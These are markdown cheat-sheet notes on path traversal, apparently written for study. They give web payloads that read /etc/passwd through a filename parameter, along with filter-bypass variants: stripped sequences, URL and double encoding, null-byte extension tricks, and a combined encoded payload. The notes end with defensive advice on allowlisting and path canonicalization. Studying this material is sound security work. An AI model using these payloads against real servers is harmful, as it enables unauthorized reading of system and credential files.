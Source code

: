 # Path traversal

## General info

* `<img src="/loadImage?filename=218.png">`
* An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
* `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
* On Windows, both `../` and `..\` are valid directory traversal sequences

## Bypass defences

* elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* encode: `%2e%2e%2f`
* double-encode: `%252e%252e%252f`
* require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* others

## Suggestions

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` ---> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## Defences

* Avoid passing user-supplied input to filesystem APIs
* Use two layers of defense to prevent attacks
  * Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
  * After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
